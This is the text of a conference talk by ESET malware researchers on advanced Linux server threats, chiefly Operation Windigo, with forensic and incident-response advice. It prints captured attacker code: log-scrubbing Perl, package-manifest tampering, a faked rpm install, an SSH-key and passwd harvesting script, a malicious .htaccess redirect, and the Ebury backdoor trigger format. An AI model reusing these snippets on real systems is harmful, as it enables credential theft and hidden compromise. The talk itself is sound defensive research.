


rm -rf /Advanced Linux Server-Side Threats
How they work and what you can do about them
Olivier Bilodeau, ESET (@obilodeau)
Marc-Etienne M.Léveillé, ESET (@marc_etienne_)
:~$ apropos
Recent evolution of server-side malware
Windigo in-depth
DevOps malware operators?
Forensic and incident response
:~$ whoami
Olivier Bilodeau
Malware Researcher at ESET
InfoSec Lecturer at ETS University in Montreal Canada
Previously
FLOSS Perl developer, http://www.packetfence.org/
Linux/Unix Sysadmin for a large Canadian ISP
:~$ whoami
Marc-Etienne M.Léveillé
Malware Researcher at ESET
Interested in OS X and Linux threat
InfoSec CTF competition fan
Previously
iOS and OS X developer
:~$ w | grep -v -e olivier -e marc-etienne
aka Who are you?
Server-side threats
Old-school defacement

Old-school damage
For the lulz
Server-side threats evolved
Motivated by money
But why crimeware on servers?
Always up
Almost always reachable
Good bandwidth
Good IP reputation
May contain sensitive information
Why should you care about Crimeware?
(Your) Infected servers are put on blacklists
AV blacklists → Web visitors get warning
Spamhaus' XBL → Server can’t send e-mail
Google’s Safe Browsing API → Web visitors get warning
Crimeware evolution
A brief look in recent history
.htaccess redirection
Redirection done using
mod_rewriterules inside a.htaccessfileInfection vector usually is
Credential stealing/bruteforce (FTP or admin panel)
Vulnerable web application
.htaccess redirection
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteCond %{HTTP_REFERER} ^.*(google|ask|yahoo|baidu|youtube|wikipedia|qq|excite|altavista|msn|netscape|aol|hotbot|goto|infoseek|mamma|alltheweb|lycos|search|metacrawler|bing|dogpile|facebook|twitter|blog|live|myspace|mail|yandex|rambler|ya|aport|linkedin|flickr|nigma|liveinternet|vkontakte|webalta|filesearch|yell|openstat|metabot|nol9|zoneru|km|gigablast|entireweb|amfibi|dmoz|yippy|search|walhello|webcrawler|jayde|findwhat|teoma|euroseek|wisenut|about|thunderstone|ixquick|terra|lookle|metaeureka|searchspot|slider|topseven|allthesites|libero|clickey|galaxy|brainysearch|pocketflier|verygoodsearch|bellnet|freenet|fireball|flemiro|suchbot|acoon|cyber-content|devaro|fastbot|netzindex|abacho|allesklar|suchnase|schnellsuche|sharelook|sucharchiv|suchbiene|suchmaschine|web-archiv)\.(.*)
RewriteRule ^(.*)$ http://[ link redacted ] [R=301,L]
RewriteCond %{HTTP_REFERER} ^.*(web|websuche|witch|wolong|oekoportal|t-online|freenet|arcor|alexana|tiscali|kataweb|orange|voila|sfr|startpagina|kpnvandaag|ilse|wanadoo|telfort|hispavista|passagen|spray|eniro|telia|bluewin|sympatico|nlsearch|atsearch|klammeraffe|sharelook|suchknecht|ebay|abizdirectory|alltheuk|bhanvad|daffodil|click4choice|exalead|findelio|gasta|gimpsy|globalsearchdirectory|hotfrog|jobrapido|kingdomseek|mojeek|searchers|simplyhired|splut|the-arena|thisisouryear|ukkey|uwe|friendsreunited|jaan|qp|rtl|search-belgium|apollo7|bricabrac|findloo|kobala|limier|express|bestireland|browseireland|finditireland|iesearch|ireland-information|kompass|startsiden|confex|finnalle|gulesider|keyweb|finnfirma|kvasir|savio|sol|startsiden|allpages|america|botw|chapu|claymont|clickz|clush|ehow|findhow|icq|goo|westaustraliaonline)\.(.*)
RewriteRule ^(.*)$ http://[ link redacted ] [R=301,L]
</IfModule>Darkleech
aka Apmod and Chapro
Apache module for redirecting web traffic
Sold for $1000 on underground forums
Malware-as-a-service for Linux
Multiple operators and campaigns
Darkleech
Price: 1000$
Installation instructions: Place mod in any folder, edit Apache config file to add 1 string and restart server.
Major features:
- insert frames in php, html,js on the fly
- frame delivered to unique users only, no frame on repeat. << known anti-forensics. Interesting, how this implemented here, external logs or based on Apache2?
- possibility framing of traffic, that came from search engines only << looks like again Referer field?
- different modes of framing – low, standard, aggressive
- update of malicious frame from external URL
- Admins of webserver, that have ssh access to it, excluded from frame delivery. System also able to detect Admin’s IP by URL of administrative access and ban Admin IP from framing procedure.
- When root or any user in sudo group login into server, module transfer to “quiet mode”, and only when IP of the admin banned or filtered out, server proceed with infecting visitors.
- users filtered out by origin, OS version, local IP requests etc. << this is based on User-Agent, as far as I understand.
- When module detect any suspicious process in memory(tcpdump, rkhunter etc), it stop the activity
- option to encryption of framing.
As seller claim, module was used in private for 2 last years, now available for sell. Current version is 14.0
Major reason to going public – reticently researchers came close to find it out. So there is no reason to stay private.
Mode written in C and PHPPhalanx / Phalanx 2
Getting to the kernel
Very effective and clever rootkit
Hooks kernel syscalls by injecting code inside the kernel
Not that portable. It may break with new kernel version.
Enter Operation Windigo
What is Operation Windigo?
Crimeware operation consisting of several malware components — Linux/Ebury, Linux/Cdorked and Perl/Calfbot — where the infrastructure is mostly operated on compromised servers.
Used for traffic redirection and sending spam.
Operation Windigo
a joint investigation effort


Linux/Ebury
OpenSSH backdoor
Before: replacing original OpenSSH binaries (ssh, sshd, ssh-add)
Then: replaces libkeyutils.so library and hooks OpenSSH address space
Now: patch libkeyutils.so library to load libns2.so and hooks OpenSSH address space
Provides a backdoor root shell to the operators
Doesn’t leave traces behind when used
Steals SSH passwords and keys
When connecting to and from the infected machine
How the shared library works (cont.)

key_parse clean

key_parse hooked
How information is exfiltrated?
Passwords are sent inside a DNS packet with all required information such as username, target IP address and port
Keys are kept in memory and are later fetched by the operators with the
Xcatcommand
98.174.121.19 -> 75.82.52.14 DNS Standard query 0x4cdd A b74bebe10cad6ffe684bf8a1.62.220.51.41Backdoor interaction
To trigger the Linux/Ebury remotely in sshd, a special SSH client version identifier is used
192.27.81.11 -> 78.240.11.44 SSH Server: Protocol (SSH-2.0-OpenSSH_5.3)
78.240.11.44 -> 192.27.81.11 SSH Client: Protocol (SSH-2.0-0861d60b2465c0383076d8233273da)
[11 bytes password][optional 4 bytes command][optional 4 bytes argument]Backdoor interaction (cont.)
5 commands
Xver: print Linux/Ebury version installed
Xcat: print stolen credentials
Xbnd: choose binded IP address for SSH tunnel
Xpsw: set additional 4 byte xor key for future backdoor usage
None: get a shell
Linux/Cdorked
httpd/nginx/lighttpd backdoor
Replacing binary on the server
Redirect HTTP request on legitimate web site the exploit packs or affiliate links
Use shared memory (POSIX IPC) for state and configuration
No file on disk
It’s encrypted with a static XOR key unique per infection
Linux/Cdorked Stealth
Linux/Cdorked Stealth (cont.)
Presence and content of Accept, Accept-Language, Referer, User-Agent headers
Presence of administrative panel references in URL
*cpanel*
*secur*
*bill*
etc
It is a web page? (.html, .php, etc)
Did I redirect this client IP address in the last 24 hours?
Linking Cdorked and Ebury

Cdorked | Ebury
From there
Reversed the domain generation algorithm (DGA)
Had access to exfiltration server
Witnessed 7000 infected servers
Access to compromised systems through notifications
Perl/Calfbot
Perl spamming daemon
Deletes itself when running, resides only in memory
Hides as
crond
POSIX/Calfbot

The "Operation"
Beyond individual malware components, how is this thing operated.
Big Picture
How does it expand?

How can it do so?

Money trail
Install malware on Windows end-users
Exploit Kit: Flashpack, Blackhole, RIG
Win32/Glupteba (more spam capability)
Spam
Mostly adult affiliate programs links
Some Casino
Web-site redirections to adult affiliate programs
Impact
25 000+ compromised servers
500 000 browser redirections per day (20% go to exploit packs)
35M+ spam sent per day
kernel.org infected at some point in 2011
Why advanced?
Stealth
close to no disk persistence
uses shared memory
hooks into binaries
do not affect existing services
Effective
large number of compromised servers
validates spamming
maximizes available server resources
Automation
DevOps malware operators?
Found very interesting monitoring and deployments scripts
Interesting usage (SSH stream redirections):
cat payload.pl | ssh victim perl # or cat payload.sh | ssh victim bash
Recon / Deployment scripts
Written in Perl
Always reports to
STDOUTErrors
Status
Perl scripts
Not obfuscated
But as readable as Perl can be

Eliminates evidence
`mkdir -p /home/tmpq`; $tfile = '/home/tmpq/q3def';
@blist=`find /var/log -type f -mtime -1 -size +100M -ls`; print @blist if @blist;
@logs=`cat /etc/syslog.conf|grep -vi \"#\"|grep -vi dev`;
foreach (@logs) {$logs{$1}++ if m|.*?(/.+)| and not m|/mail| }
foreach $file (keys %logs) {
next if checktime($file); # print "Check $file\n";
$system="cat $file|egrep -i \"$n_date\"|egrep -i \"$string\""; #print "$system\n";
$test=`$system`; print "Found in $file. Try to correct\n" if $test; next unless $test;
$system="cat $file|egrep -vi \"$n_date\">$tfile;cat $file|egrep \"$n_date\"|egrep -vi \"$string\"\>>$tfile;cat $tfile>$file;rm -f $tfile";
# print "$system\n"; #!
system($system) }Recon scripts
Checks for LD_PRELOAD trickery
Various restrictive
sshconfigurationsBSD jails
if (-l '/bin') {
print "\n\tlALERT!!! /bin is link, seems like bsd jail\n";
$alert++
}CPanel, BRadmin, Nagios ipcs plugin, auditd
Recon (cont)
Generic
sshhoneypots
@sd = `strings /usr/sbin/sshd |grep -e "^/usr/local/libexec"`;
chomp @sd;
if (@sd) { print "\n\tALERT!!! , ".join("|",@sd)."\n" }
my $ppid=getppid;
my $pb=readlink("/proc/$ppid/exe");
if ($pb ne '/usr/sbin/sshd') {
print "\n\tlALERT!!! parent:$pb, $ppid\n";
$alert++
}Recon (cont)
Detects available tools (pkg mgmt, gcc, patch, …)
Check for header files to compile OpenSSH
Check if Ebury is already installed
Deployment script
Uses Perl’s DATA to pass files through
ssh
open(TAR,"| tar zxf - $ln $sl");
binmode(DATA);
while(<DATA>) {
print TAR $_;
}
close TAR;
__DATA__
^_<8b>^H^@VÃÇS^@^Cí½ X^TÇÖ0Ü3Ì("0hÀ¨^Q^]^U#î<8e><82>+( è h^@^E<
8c>¸¯<88>^K^Fg^T^W^PÒ`hÚ6ÞKÌÍ¢Ù4Ñ71jbôÆ^]\@<8c>^Z%Æ%j$Æhã<98><88><
9a>¸kÿç<9c>ê<86><81>ÈûÝÿû<9e>÷{<9e>ÿùimªêÔ©Sû©sªjúÌ<9e>9yñâ^^<96>i
<93>¹ÿ¹§;<½^B^BÈ<85>§<86>Û»gïÀî<9c>¥GÏ^<96>Þ^AÝ^CÁßÝbéÙ£^Ggîþ?X¦ÊÇ
>ß6)ÕlæRSRlÿ^]Þÿ*þÿ£Ï²<88>¨Áz<9d>®2ìÂ^Mà0Ô½1^K<87>¨pÿתÒ<84>p}¸zð÷Deployment script (cont)
Altering package management manifests
sub fix_md5 {
my @df = glob("/var/lib/dpkg/info/libkeyutils1*.md5sums");
get_md5();
open( $fh, "<$df" );
my @q = <$fh>;
close $fh;
for (@q) {
$c++ if s|\S+ $d1/$rfile\n|$md5 $d1/$rfile\n|
}
open( $fh, ">$df" );
print $fh @q;
close $fh;
print "md5fix: fixed lines: $c\n";
}Deployment script (cont)
How do you install an rpm in the past?
$install_time = `rpm -q --qf '%{INSTALLTIME}\n' keyutils-libs`
`MYRPMT="$install_time" LD_PRELOAD=./${override_time.so}
rpm --replacepkgs --replacefiles --noscripts --nosignature -U malicious_libkeyutils_package.rpm`Deployment script (cont)
# rpm --verify keyutils-libs
(no error)
# rpm -qi keyutils-libs
Name : keyutils-libs Relocations: (not relocatable)
Version : 1.4 Vendor: CentOS
Release : 4.el6 Build Date: Fri 22 Jun 2012 02:20:38 AM EDT
Install Date: Mon 27 Jan 2014 06:08:43 AM EST Build Host: c6b10.bsys.dev.centos.org
Group : System Environment/Base Source RPM: keyutils-1.4-4.el6.src.rpm
Size : 59320 License: GPLv2+ and LGPLv2+
Signature : RSA/SHA1, Sun 24 Jun 2012 06:18:51 PM EDT, Key ID 21efc4bf71fbfe7b
URL : http://people.redhat.com/~dhowells/keyutils/
Summary : Key utilities library
Description :
This package provides a wrapper library for the key management facility system
calls.Daily monitoring script
Bash
Grabs keys, known hosts, user ssh configs
echo __% Passwd
cat /etc/passwd
# [...]
ud=`awk -F':' '{print $6}' </etc/passwd|sort -u`;
echo __% KHosts
for f in $ud;do cat $f/.ssh/known_hosts 2>/dev/null;done
echo __% SSHConf
for f in $ud;do cat $f/.ssh/config 2>/dev/null && echo _%__${f};done
echo __% SSHKeys_priv
for f in $ud;do
[ -e $f/.ssh/id_rsa ] && { echo _%__$f/.ssh/id_rsa;cat $f/.ssh/id_rsa;echo; }
[ -e $f/.ssh/id_dsa ] && { echo _%__$f/.ssh/id_dsa;cat $f/.ssh/id_dsa;echo; } doneOther scripts findings
Modifies SELinux policy
Various styles of installation
precompiled libraries
on-site compilation
packages
Looks for over 40 backdoors/rootkits
DevOps malware operators
Manage their infrastructure with code
Pass data in-band with
sshEliminate logs, restore timestamps
Get rid of security features
Forensics and incident response
Forensics
Evidence gathering
Process analysis
Network analysis
Caution
Running at same privilege level
It’s an arm’s race
Aim for out-of-band (network or memory acquisition)
Evidence gathering
How to spy on a malicious user with the same privileges?
syslog: omits logging
package manifests: tampered
tcpdump: Ebury stops on
IFF_PROMISC, ssh traffic is encryptedcore dumping processes and shared memory: long
auditd!
auditd
The Linux audit framework provides an auditing system that reliably collects information about any security-relevant (or non-security-relevant) event on a system.
logging syscalls
logs can be sent over the network
auditctl -a exit,always -S execveauditd logs
type=EXECVE msg=audit(1373838239.340:4474200): argc=4 a0="rm" a1="-f" a2="-f" a3="/tmp/q"
type=CWD msg=audit(1373838239.340:4474200): cwd="/home/tmpp/openssh-5.9p1"
type=PATH msg=audit(1373838239.340:4474200): item=0 name="/bin/rm"
\- inode=22282288 dev=08:01 mode=0100755 ouid=0 ogid=0 rdev=00:00
type=PATH msg=audit(1373838239.340:4474200): item=1 name=(null) inode=4456796
\- dev=08:01 mode=0100755 ouid=0 ogid=0 rdev =00:00
type=SYSCALL msg=audit(1373838239.341:4474201): arch=c000003e syscall=59
\- success=yes exit=0 a0=1f29d40 a1=1eec5f0 a2=1f 03ec0 a3=7fffd6be9a60
\- items=2 ppid=13403 pid=21287 auid=501 uid=0 gid=0 euid=0
\- suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty =pts0 ses=128232 comm="touch" exe="/bin/touch" key=(null)
type=EXECVE msg=audit(1373838239.341:4474201): argc=4 a0="touch" a1="-r"
\- a2="/etc/ssh/sshd_config" a3="/etc/ssh/ssh_config"auditd logs (cont.)
On non-ascii arguments it switches to hex
type=EXECVE msg=audit(1373837952.278:4473290): argc=26 a0="gcc" a1="-g"
a2="-O2" a3="-Wall" a4="-Wpointer-arith" a5="-Wuninitialized"
a6="-Wsign-compare" a7="-Wformat-security" a8="-Wno-pointer-sign"
a9="-Wno-unused-result" a10="-fno-strict-aliasing" a11="-fno-builtin-memset"
a12="-fstack-protector-all" a13="-I." a14="-I."
a15=2D445353484449523D222F6574632F73736822 a16=2D445F504154485F5353485F50
524F4752414D3D222F7573722F6C6F63616C2F62696E2F73736822
[...]
a21=2D445F504154485F5353485F5049444449523D222F7661722F72756E22
a22=2D445F504154485F505249565345505F4348524F4F545F4449523D222F7661722F656D70747922
a23="-DHAVE_CONFIG_H" a24="-c" a25="rsa.c"
$ ipython
in [1]: ('2D445F504154485F5353485F504B435331315F48454C504552'
'3D222F7573722F6C6F63616C2F6C6962657865632F7373682D'
'706B637331312D68656C70657222').decode('hex')
Out[2]: '-D_PATH_SSH_PKCS11_HELPER="/usr/local/libexec/ssh-pkcs11-helper"'Process analysis
Once you’ve found an interesting process
Dump process memory
gcore pidstrings,gdb, IDA Pro
Did you know?
proc allows you to extract deleted executables
# normal
$ sudo ls -l /proc/17902/exe
lrwxrwxrwx 1 root root 0 Sep 26 13:11 /proc/17902/exe -> \
\- /home/olivier/src/nginx-1.5.3/nginx
$ sha1sum /home/olivier/src/nginx-1.5.3/nginx
fbb493f83e67a651ccbbf73a5ad22ca6719c19e4 /home/olivier/src/nginx-1.5.3/nginx
$ sudo rm /home/olivier/src/nginx-1.5.3/nginx
# removed
$ sudo ls -l /proc/17902/exe
lrwxrwxrwx 1 root root 0 Sep 26 13:11 /proc/17902/exe -> \
\- /home/olivier/src/nginx-1.5.3/nginx (deleted)
$ sudo cp /proc/17902/exe ./nginx
$ sha1sum nginx
fbb493f83e67a651ccbbf73a5ad22ca6719c19e4 nginxMore /proc tricks
We’ve seen Perl/Calfbot hide as
crondinps -efoutput
$0 = "crond";procfsallows to inspect for that
# clean
$ pgrep -x "cron" | sudo xargs -I '{}' ls -la "/proc/{}/exe"
lrwxrwxrwx 1 root root 0 Sep 25 13:35 /proc/1389/exe -> /usr/sbin/cron
# suspicious
$ pgrep -x "cron" | sudo xargs -I '{}' ls -la "/proc/{}/exe"
lrwxrwxrwx 1 root root 0 Sep 25 13:21 /proc/666/exe -> /usr/bin/perlCaution
Always copy everything from /proc/$pid before killing a process
Process analysis tools
lsof -p pidto list all files used by process
netstat -anp | grep pidto list sockets
ipcsshared memory analysis (later)
Tools (cont.)
stracetrace system calls
ltracetrace library calls
Reverse-engineering Perl
Use
perltidyto prettify PerlRename variables
vim: * then
cimthen (nthen.).repeat()or your search/replace of
$EDITOR
For packed scripts use
B::Deparse
Network evasion
SSH tunnels
nginx reverse proxies
IP in IP tunnels
3Proxy
Finding SSH tunnels
Look through listings for
sshdprocesslsof -i -nLook through listings for
sshdprocessps -ef
SSH tunnels
Through infected servers
Used to send spam
Finding rogue nginx reverse proxy
# process
ps -ef | grep nginx
# sockets
lsof -i -n | grep nginxnginx reverse proxies
Through infected servers
Layers of redirection in front of the Calfbot C&C
Layers of redirection in front of the Exploit Kit hosting
Binary often in odd location (
/boot/sbin/nginx)
nginx Cdorked config example
# ...
upstream backend_servers {
server xx.xxx.118.201:xx05 max_fails=1 fail_timeout=600s weight=25
# [... other servers ...]
}
server {
listen 80
access_log /dev/null
location / {
proxy_pass http://backend_servers
proxy_set_header Host $http_host
proxy_redirect off
proxy_set_header X-Real-IP $remote_addr
proxy_set_header X_Forwarded-For $proxy_add_x_forwarded_for ; X_For.. is not a typo
# [... performance things ...]
}
}nginx Calfbot config example
# ...
upstream backend_servers {
server xxx.x.36.17:4xx35;
}
# ...
server {
listen 19xx;
listen 443;
ssl on;
ssl_certificate /boot/conf/certificate.pem;
ssl_certificate_key /boot/conf/secret_key.key;
# ...
}Finding IP in IP tunnels
ifconfigand look for:Link encap:IPIP Tunnelip tunnel showtunl0: ip/ip remote any local any ttl inherit nopmtudisc tun10: ip/ip remote xx.xx.201.34 local xxx.xxx.232.18 dev eth0 ttl inherit sit0: ipv6/ip remote any local any ttl 64 nopmtudiscip route show
10.12.12.0/30 dev tun10 proto kernel scope link src 10.12.12.2iptables -t nat -L -nvpost-routing source NAT to map tunnel traffic to
eth0IP
But what are IP in IP tunnels?
Handled by the kernel
Created with
ifconfigoriproute2suitePoint-to-point link that encapsulate IP inside IP
Transport independent
IP in IP tunnels
Through infected servers
Used to hide all sort of traffic (SSH, browser, etc.)
Layers of tunneling found
Finding iptables redirects
Audit your iptables NAT table rules
iptables -t nat -L -nviptables
Rules in the NAT table to bounce traffic of compromised servers
-A PREROUTING -d xx.xx.51.14/32 -p udp -m udp --dport 53 -j DNAT --to-destination xxx.xx.225.200:53
-A POSTROUTING -d xxx.xx.225.200/32 -p udp -m udp --dport 53 -j SNAT --to-source xx.xx.51.14Finding 3Proxy
lsof -i -n/procto find binarystrings
$ strings crond | grep 3proxy
Documentation and sources: http://www.security.nnov.ru/soft/3proxy/
3proxy@3Proxy
Tiny free cross-platform multi-protocol proxy server
Not malware (strings not obfuscated)
Sometimes hidden as
crondConfiguration built-in binary
Out of band Forensics
Network captures
Copy disk content
Dump memory
Network captures
full packet capture from an external host
wireshark, dumpcap, security-onion distro
SSH mitm, http://www.signedness.org/tools/
Disk capture
ddOr ask your hosting provider
Dumping memory
in-band: LiME, https://github.com/504ensicsLabs/LiME
out-of-band: through virtualization snapshots
Memory analysis
Indicators of Compromise
We released so-called IOCs
Reaction example


Incident response
Don’t be in denial
Gather all the evidence you can and keep it
[BEST] disk image, memory dump, external packet capture
binaries,
/procmetadata
Reinstall from scratch
Reinstall
Assume user and admin credentials and keys compromised
Reinstall from trusted sources
Be careful when restoring backups
Do not reinstall from a compromised SSH gateway
Post incident response
Consider implementing a password policy
pam-cracklib, Openwall’s pam_passwdqc
No more passwords, use keys
Don’t store keys on server ever:
ssh-agent
Post incident response (cont.)
[BEST] use two-factor authentication
google-authenticator or oath-toolkit PAM module
FreeIPA
Forensics, Incident Response and Mitigation
Out of band is better but in-band worked
Full reinstall seems hard
One can avoid all this with simple measures
Plea to System Developers
Logs should be harder to tamper
journald’s Forward Secure Sealing
Same for package manifests
Easy way to verify package integrity from LiveCD
yum: listing GPG key-signer should be builtin
Closing words
You can help fight this threat!
Spread the word on detection and prevention techniques
Help cleaning infected systems
Work on making the ecosystem more resistant
Send us anything suspect you find!
:~$ logout
Thanks!
Questions?